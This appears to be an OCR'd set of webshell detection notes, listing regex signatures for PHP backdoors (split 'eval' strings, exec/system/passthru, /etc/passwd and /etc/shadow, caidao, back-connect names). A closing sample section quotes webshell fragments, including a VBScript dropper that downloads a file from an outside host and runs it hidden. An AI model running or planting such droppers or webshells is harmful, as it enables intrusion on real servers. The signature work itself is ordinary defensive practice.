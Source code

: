 1. `\$_Request\[.*`|`\$_GET\[.*`|`\$_POST\[.*`

    - ``$_Request[``
    - ``$_GET[``
    - ``$_POST[``

1. \'ev'\.\'a\'\.\'l\'|\'ev\'\.\'a\'\.\'l\'|\'ev\'\.\'al\'|\'eva\'\.\'l\'|\'e\'\.\'va\'\.\'l\'|\'e\'\.\'val\'  -- actived

    - `'ev'.'a'.'l'`
    - `'ev'.'al'`
    - `'eva'.'l'`
    - `'e'.'va'.'l'`
    - `'e'.'val'`

1. phpinfo

    - `phpinfo`

1. 木马|提权|旁注|WebAdmin2Y|chopper|webshell|/etc/passwd|/etc/shadow|caidao|backdoor|rootkit|\.htpasswd|php\s*(web)?shell|Georg\s*says|www\.4ngel\.net|back_connect_c|angel_bc|\$_SESSION\[\"writebuf\"\]

    - `WebAdmin2Y`                              //! WebAdmin.2Y后门软件中使用的dll组件名
    - `.htpasswd`                               //! 建立和更新用于基本认证的存储用户名/密码的文本文件。如果htpasswd不能读写此文件，它返回一个出错代码，而不做任何修改。
    - `phpwebshell`
    - `Georgsays`
    - `www.4ngel.net`
    - `back_connect_c`
    - `angel_bc`
    - `$_SESSION["writebuf"]`

1. (preg_replace.*\/e|`.*?\$.*?`|\bcreate_function\b|\bpassthru\b|\bshell_exec\b|\bexec\b|\bbase64_decode\b|\bedoced_46esab\b|\beval\b|\bsystem\b|\bproc_open\b|\bpopen\b|\bcurl_exec\b|\bcurl_multi_exec\b|\bparse_ini_file\b|\bshow_source\b)

****



#1400 GO GO GO
* 语义匹配目标
2. 次关键语义匹配目标
3. 次次关键语义匹配目标
1. 语义匹配语句
2. 次关键语义匹配语句
- 粗暴特征语句


##138shell

###A

* passthru(getenv("HTTP_ACCEPT_LANGUAGE"))

* Set entrika = CreateObject("Scripting.FileSystemObject")
* Set entrika = entrika.CreateTextFile("c:\net.vbs", True)
* entrika.write "Set xml = CreateObject(""Microsoft.XMLHTTP"")" & vbcrlf
* entrika.write "xml.Open ""GET"",""http://www35.websamba.com/cybervurgun/file.zip"",False" & vbcrlf
* "Set WshShell = CreateObject(""WScript.Shell"")" & vbcrlf
* entrika.write "WshShell.Run ""c:\downloaded.zip"", 0, false" & vbcrlf
* WshShell.Run "c:\net.vbs", 0, false
